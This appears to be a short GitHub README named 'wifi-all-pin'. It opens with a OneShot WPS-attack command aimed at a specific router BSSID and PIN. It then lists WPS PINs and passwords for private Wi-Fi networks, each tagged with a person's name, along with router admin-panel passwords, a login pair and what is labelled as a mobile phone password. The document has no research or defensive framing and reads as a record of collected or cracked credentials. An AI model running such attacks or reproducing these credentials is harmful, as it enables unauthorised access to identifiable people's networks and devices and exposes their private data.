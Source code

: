 # wifi-all-pin

 sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305

jakir wifi:- 85239999

jamal wifi= 91978035

Rubrl wifi:- 21595684

jiban:- 68642419

sumaiya Home:- 21660436

sadik wifi= 70367157

SK arman bazar wifi:- 17985123

Renu kaka:- 30712881

sumaiya মোবাইল পাসওয়ার্ট:- 637267

Ranu wifi admin penel:- 76449163
## Renu wifi 
user:- ts-net1026
password:- 12345

admin penel pass:- 76449163

